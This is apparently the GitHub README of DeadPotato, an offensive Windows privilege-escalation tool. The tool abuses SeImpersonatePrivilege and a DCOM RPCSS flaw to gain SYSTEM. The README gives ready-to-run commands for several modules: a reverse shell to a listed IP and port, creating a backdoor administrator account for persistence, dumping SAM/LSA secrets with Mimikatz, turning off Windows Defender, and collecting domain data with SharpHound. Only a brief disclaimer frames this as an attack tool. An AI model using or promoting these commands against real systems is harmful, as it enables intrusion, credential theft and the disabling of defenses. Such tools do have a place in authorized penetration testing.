 <p align="center">
  <banner><image href="title-banner" src="https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa" /></image></banner><br>
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a></br>

************************************************************

</br>
<h3 align="center">🚨 Hashdump & SharpHound 
</br> 🚨 Modules Now Available! </h3>
<h4 align="center">
<i>❗ Usage of this program under an unauthorized context is strictly forbidden.</i> 
</br>❗ The author(s) of DeadPotato do not take any responsibility for any harm caused to systems.
</br>❗ Use with caution. </i></h4>
</br>

************************************************************

</br>

      C:\Users\lypd0> GodPotato.exe
  
            ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
            ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
            ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
            ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
            ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠀⠀⠀
            
          _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

             (*) Example Usage(s):

             -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

             -> deadpotato.exe -cmd "whoami"
             -> deadpotato.exe -rev 192.168.10.30:9001
             -> deadpotato.exe -exe paylod.exe
             -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
             -> deadpotato.exe -shell
             -> deadpotato.exe -mimi sam
             -> deadpotato.exe -defender off
             -> deadpotato.exe -sharphound

             (*) Available Modules:

             - cmd: Execute a command as NT AUTHORITY\SYSTEM.
             - rev: Attempts to establish a reverse shell connection to the provided host
             - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
             - newadmin: Create a new administrator user on the local system.
             - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
             - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
             - defender: Either enables or disables Windows Defender's real-time protection.
             - sharphound: Attempts to collect domain data for BloodHound. 

</br>

************************************************************

</br>
<h2 align="center"> ❔ Quick Start - How To Use  ❔ </h2>
<p><i><strong>The `SeImpersonatePrivilege` right is enabled in your context? With <i><strong>DeadPotato</strong></i>, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, `-newadmin usr:pass` for creating a new local Administrator user for persistence, or `-mimi sam` for dumping SAM hashes.</strong></i></p></br>
</br>

************************************************************

</br>
<image align=*center*> 
<a href="GQJhLcT9IHA" src=*https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6* /></a>
<h3 align="center"> Verify SeImpersonatePrivilege rights </h3>
<p><i>In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.</br>
<p align="center"> If there privilege is disabled, exploitation is not possible in the current context.</i></p></br>
</br>

************************************************************

</br>

           C:\Users\lypd0> whoami /priv

            <...SNIP...>
            SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
            <...SNIP...>

</br>

************************************************************

</br>
<h2 align="center">🐚 Getting an Elevated Reverse Shell </h2>

<p aligne="center"> <image href="XQASCL7Lz6" src="https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c" /p>

</br>

************************************************************

</br>
<h3 align="center"> 🏅 Credits </h3>
<p align="center"><i>This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.</br>
If you like this project, make sure to also go show support to [the original project : </br> 
https://github.com/BeichenDream/GodPotato</i></br>
<p align="center"> 
<strong>
 💥 BeichenDream, </br>
 💥 Benjamin DELPY `gentilkiwi`, </br>
 💥 BloodHound Developers. </br></strong>
</p></br>

************************************************************

</br>
<h4 align="center"> License </h4>
<h5 align="center">
 This project is licensed under the Apache 2.0 License : </br></br>          
 https://choosealicense.com/licenses/apache-2.0 </br></br> 
 Please review the LICENSE file for more details. </br></h5>
 </br>
  
************************************************************

</br>
<h4 align="center">
<image href="Star History Chart" src="https://api.star-history.com/svg?repos=lypd0/DeadPotato&type=Date" /image></h4>
</br>

************************************************************
